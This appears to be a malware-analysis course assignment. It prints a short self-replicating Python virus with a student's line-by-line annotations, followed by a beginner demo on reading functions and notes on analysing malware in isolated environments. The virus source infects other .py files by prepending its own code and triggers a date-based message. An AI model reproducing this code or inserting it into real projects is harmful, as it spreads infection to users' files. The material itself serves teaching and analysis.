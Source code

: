 ### Perform an analysis of the Python-based code.

Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

```python
#!/usr/bin/python3 *This tells the computer to use python3 to run the script*
import os *This imports the os module*
import datetime *This imports the datetime module*

SIGNATURE = "VIRUS" *This sets the variable SIGNATURE to VIRUS*

**the def locate(path): function is used to locate the path of the file**
def locate(path): *This defines the function locate*
    files_targeted = [] *This sets the variable files_targeted to an empty list*
    filelist = os.listdir(path) *This sets the variable filelist to the list of files in the path*
    for fname in filelist: *This starts a for loop that will iterate through the list of files*
        if os.path.isdir(path+"/"+fname): *This checks if the file is a directory*
            files_targeted.extend(locate(path+"/"+fname)) *This extends the list of files_targeted with the list of files in the directory*
        elif fname[-3:] == ".py": *This checks if the file is a python file*
            infected = False *This sets the variable infected to False*
            for line in open(path+"/"+fname): *This starts a for loop that will iterate through the lines in the file*
                if SIGNATURE in line: *This checks if the line contains the signature*
                    infected = True *This sets the variable infected to True*
                    break *This breaks the for loop*
            if infected == False: *This checks if the variable infected is False*
                files_targeted.append(path+"/"+fname) *This appends the file to the list of files_targeted*
    return files_targeted *This returns the list of files_targeted*

**the def infect(files_targeted): function is used to infect the files in the list of files_targeted**
def infect(files_targeted): *This defines the function infect*
    virus = open(os.path.abspath(__file__)) *This opens the file*
    virusstring = "" *This sets the variable virusstring to an empty string*
    for i,line in enumerate(virus): *This starts a for loop that will iterate through the lines in the file*
        if 0 <= i < 39: *This checks if the line is between 0 and 39*
            virusstring += line *This adds the line to the virusstring*
    virus.close *This closes the file*
    for fname in files_targeted: *This starts a for loop that will iterate through the list of files*
        f = open(fname) *This opens the file*
        temp = f.read() *This sets the variable temp to the contents of the file*
        f.close() *This closes the file*
        f = open(fname,"w") *This opens the file in write mode*
        f.write(virusstring + temp) *This writes the virusstring and the contents of the file to the file*
        f.close() *This closes the file*

**the def detonate(): function is used to detonate the virus**
def detonate(): *This defines the function detonate*
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9: *This checks if the date is May 9th*
        print("You have been hacked") *This prints the message*

**the final three lines of code are used to call the functions.  This is what actually tells the computer to activate the code**
files_targeted = locate(os.path.abspath("")) *This sets the variable files_targeted to the list of files in the current directory*
infect(files_targeted) *This calls the function infect with the list of files as the argument*
detonate() *This calls the function detonate*
```

# Demo

# Ops Challenge - Python Malware Analysis

## Demo Code

Analyzing malware code can be a potentially risky task, as it involves handling potentially harmful code that can infect systems. However, if you follow proper precautions and use a safe environment, you can minimize the risks.

The demo code below introduces concepts necessary to complete the challenge.


```python
#!/usr/bin/env python3

def changeme( mylist ):
   mylist.append([1,2,3,4]);
   print("Values inside the function: ", mylist)
   return

mylist = [10,20,30];
changeme( mylist );
print("Values outside the function: ", mylist)

```

Break the code into pieces. Identify each component. Use what you know. For example, you know functions must be declared before they can be called.

```python
#!/usr/bin/env python3

# Function definition is here

def changeme( mylist ):
# This changes a passed list into this function

   mylist.append([1,2,3,4]);
   print("Values inside the function: ", mylist)
   return

# The function changeme has been declared. Now you can call changeme function.

# First, the script declares a variable called "mylist" as [10,20,30]
mylist = [10,20,30];

# The function changeme is called with the parameter "mylist" inserted.
changeme( mylist );

# Prints a string then the contents of "mylist" variable
print("Values outside the function: ", mylist)
```

By translating the code line by line and using the concepts we know, we can gradually interpret the meaning of code written by another person.


## Notes

Here are some recommended steps to analyze malware code safely:

1. Isolate the Environment
    - Create a controlled and isolated environment to analyze the malware. Use a dedicated VM or an offline system that is not connected to your network or critical infrastructure. This prevents the malware from spreading or causing damage beyond the isolated environment.
2. Analyze Indicators of Compromise (IOCs)
    - Identify any potential indicators of compromise, such as file names, registry entries, or network connections associated with the malware. Analyze these IOCs to understand the impact and potential mitigation strategies.
3. Use a Debugger
    - A debugger is a useful tool that allows you to pause the execution of the code in order to inspect it's behavior. However, exercise caution when using these tools, as some malware may be designed to detect and evade analysis.
4. Analyze in a Controlled Network
    - If network behavior analysis is required, connect the virtual machine to an isolated network environment, such as a separate subnet or virtual network. Monitor the network traffic and interactions of the malware within this controlled environment.
